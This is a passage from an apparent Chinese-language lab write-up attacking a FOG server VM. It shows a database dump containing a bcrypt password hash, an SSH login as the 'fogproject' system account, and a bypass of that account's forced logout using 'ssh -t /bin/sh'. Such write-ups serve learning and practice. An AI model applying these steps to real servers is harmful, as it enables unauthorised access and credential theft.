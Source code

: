 ```sql
| uId | uName | uPass                                                        | uCreateDate         | uCreateBy | uType | uDisplay | uAllowAPI | uAPIToken |
+-----+-------+--------------------------------------------------------------+---------------------+-----------+-------+----------+-----------+-----------+
|   1 | fog   | $2y$11$8QdmUSJOMByT3XuhhtRWsOlqydpDg8LHcnYPxr3oB3IGvfCkpuRWa | 2021-03-10 04:33:34 | fog       |     0 |          | 1         |           |
+-----+-------+--------------------------------------------------------------+---------------------+-----------+-------+----------+-----------+-----------+
1 row in set (0.000 sec)
```

没有更深入的有价值信息了

## User fogproject

尝试通过 SSH 连接

```bash
┌──(randark ㉿ kali)-[~]
└─$ ssh fogproject@192.168.56.130
fogproject@192.168.56.130's password:
Linux zday 4.19.0-14-amd64 #1 SMP Debian 4.19.171-2 (2021-01-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Apr  9 11:22:16 2025 from 192.168.56.127
-bash: warning: setlocale: LC_ALL: cannot change locale (zh_CN.UTF-8)
You seem to be using the 'fogproject' system account to logon and work
on your FOG server system.

It's NOT recommended to use this account! Please create a new
account for administrative tasks.

If you re-run the installer it would reset the 'fog' account
password and therefore lock you out of the system!

Take care,
your FOGproject team
Connection to 192.168.56.130 closed.
```

尝试指定 SSH 的入口

```bash
┌──(randark ㉿ kali)-[~]
└─$ ssh fogproject@192.168.56.130 -t /bin/sh
fogproject@192.168.56.130's password:
bash: warning: setlocale: LC_ALL: cannot change locale (zh_CN.UTF-8)
$ whoami
fogproject
```
